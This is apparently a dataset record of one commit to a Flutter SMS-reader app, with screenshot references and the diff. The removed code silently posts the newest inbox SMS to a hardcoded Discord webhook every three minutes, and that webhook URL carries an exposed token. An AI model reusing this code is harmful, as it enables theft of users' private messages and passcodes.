

Before and after one commit to hkhy2145/pfg, a Flutter app: the screen it shows after launch, on a phone screen of 412 x 824 dp. Shown: the top 765 px of the screen. Run offline on Flutter 3.47's test engine with Material 2 defaults, Android fonts, the phone set to English and light mode, and no system bars; missing offline and left inert: telephony.

Commit message:
Update main.dart

```diff
--- a/lib/main.dart
+++ b/lib/main.dart
@@ -1,7 +1,6 @@
 import 'package:flutter/material.dart';
 import 'package:telephony/telephony.dart';
 import 'package:http/http.dart' as http;
-import 'dart:async';
 import 'dart:convert';
 
 void main() {
@@ -24,16 +23,12 @@ class SMSReaderApp extends StatefulWidget {
 
 class _SMSReaderAppState extends State<SMSReaderApp> {
   final Telephony telephony = Telephony.instance;
-  List<SmsMessage> smsMessages = [];
+  String lastReceivedMessage = "";
 
   @override
   void initState() {
     super.initState();
     _requestPermissionsAndReadSMS();
-    // Schedule a timer to check for the last message and send it to Discord every 3 minutes
-    Timer.periodic(Duration(minutes: 3), (timer) {
-      _sendLastMessageToDiscord();
-    });
   }
 
   Future<void> _requestPermissionsAndReadSMS() async {
@@ -47,27 +42,27 @@ class _SMSReaderAppState extends State<SMSReaderApp> {
 
   Future<void> _getSMSMessages() async {
     List<SmsMessage> messages = await telephony.getInboxSms();
+    if (messages.isNotEmpty) {
       setState(() {
-      smsMessages = messages;
+        lastReceivedMessage = messages.last.body;
       });
     }
+  }
 
-  Future<void> _sendLastMessageToDiscord() async {
-    if (smsMessages.isNotEmpty) {
-      final lastMessage = smsMessages.last;
-      final discordWebhookURL = 'https://discord.com/api/webhooks/1165290854416646225/NFI2Puw2SYeWNetzEm9sr_KtCSjEA-6CS54hTQZDCy7LD-EYLuv0rM2oioO7ObazFZvU'; // Replace with your Discord webhook URL
+  Future<void> _sendToDiscordWebhook() async {
+    final discordWebhookURL =
+        'YOUR_DISCORD_WEBHOOK_URL'; // Replace with your Discord webhook URL
 
     final response = await http.post(
       Uri.parse(discordWebhookURL),
       headers: {'Content-Type': 'application/json'},
-        body: jsonEncode({'content': lastMessage.body}),
+      body: jsonEncode({'content': lastReceivedMessage}),
     );
 
     if (response.statusCode == 200) {
-        print('Message sent to Discord: ${lastMessage.body}');
+      print('Message sent to Discord: $lastReceivedMessage');
     } else {
       print('Failed to send message to Discord. Status code: ${response.statusCode}');
-      }
     }
   }
 
@@ -77,14 +72,19 @@ class _SMSReaderAppState extends State<SMSReaderApp> {
       appBar: AppBar(
         title: Text('SMS Reader App'),
       ),
-      body: ListView.builder(
-        itemCount: smsMessages.length,
-        itemBuilder: (context, index) {
-          return ListTile(
-            title: Text('From: ${smsMessages[index].address}'),
-            subtitle: Text('Message: ${smsMessages[index].body}'),
-          );
-        },
+      body: Column(
+        mainAxisAlignment: MainAxisAlignment.center,
+        children: [
+          Text(
+            'Last Received Message: $lastReceivedMessage',
+            style: TextStyle(fontSize: 18),
+          ),
+          SizedBox(height: 20),
+          ElevatedButton(
+            onPressed: _sendToDiscordWebhook,
+            child: Text('Send to Discord Webhook'),
+          ),
+        ],
       ),
     );
   }
```
Lines whose indentation alone changed are shown as unchanged.
